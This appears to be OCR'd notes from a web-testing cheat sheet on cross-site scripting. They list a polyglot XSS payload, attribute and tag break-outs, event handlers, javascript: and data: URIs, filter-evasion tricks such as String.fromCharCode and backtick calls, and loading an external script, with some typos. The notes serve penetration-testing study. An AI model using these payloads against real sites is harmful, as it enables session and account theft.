 ### ⇒ test the application with this payload to understand the application
###          **▪    `martin\/><'"`--><svg/onload=alert(document.domain)>"</script><img src=x onerror=alert(1)><script>alert(1)</script>**
         - understand which characters are escaped
- Escape from the current user input  
         - "/>  
         - ')
         - '/></tag>
- use handlers
         - onclick
         - onfocus
         - onmouseover
- javascript
         - javascritp:alert(1)
-After the hashcode # 
         - if we can inject internal path location
         - then we do some xss
         - ### **#data:text/javascript,alert('XSS')**
- Intercept the request and change the values (payload)
         - capture and change the values topayload
- Search any hidden input fields are present
         - if yes make as text and inject the payload
- UTF 7 Based encoding
         - this wont work in the moder browsers
- document.domain
         - Use another alternative mthod to perform xss
         - location.host used for alternative of document.domain
-  Use Polygot payload to test the response or else use custom ones  ###  **test\/><'"'**
- instead script use others
- instead alert use prompt console.log and more
- use ### **`alert`1``**  instead of **`alert(1)`**
- alert(String.fromCharCode(88,83,83))  Sometimes the strings blocked soyou can use encoded version
-  include external js files to execute 
      - <script src= “https://domain.com”></script>
